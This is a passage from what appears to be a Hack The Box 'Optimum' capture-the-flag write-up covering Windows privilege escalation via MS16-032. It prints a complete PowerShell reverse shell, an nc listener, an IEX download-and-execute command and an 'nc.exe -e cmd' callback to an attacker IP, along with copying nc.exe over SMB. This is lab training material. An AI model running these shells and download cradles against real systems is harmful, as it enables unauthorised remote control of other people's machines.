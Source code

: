 ```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.20",4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()
```

And with a nc listener, I run the Invoke-MS16032.ps1 script with the next command.

```bash
sudo nc -lv 4444
```

```powershell
Invoke-MS16032 -Command "IEX(New-Object Net.Webclient).downloadString('http://10.10.14.20/revShell.ps1')"
```

I tried to run the previous command in many different ways but doesn’t worked, so I changed a little bit the script to put a nc reverse shell instead.

```powershell
C:\Windows\Temp\PrivEsc\nc.exe -e cmd 10.10.14.20 4444
```

In this way, only we will need to copy a nc binary into the `\Windows\Temp\PrivEsc` folder, so I started a [smbserver.py](http://smbserver.py) to copy it (The binary which I used is the [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells/FuzzDB) one).

```powershell
cd \Windows\Temp
mkdir PrivEsc
copy \\10.10.14.20\smbFolder\nc.exe .
```

Now let’s run again the command.

We are root now.

![Untitled](/HTB/optimum-10.png)

Only have to find **root’s flag.**

![Untitled](/HTB/optimum-11.png)

**Thank you for reading, and happy hacking! 😄**
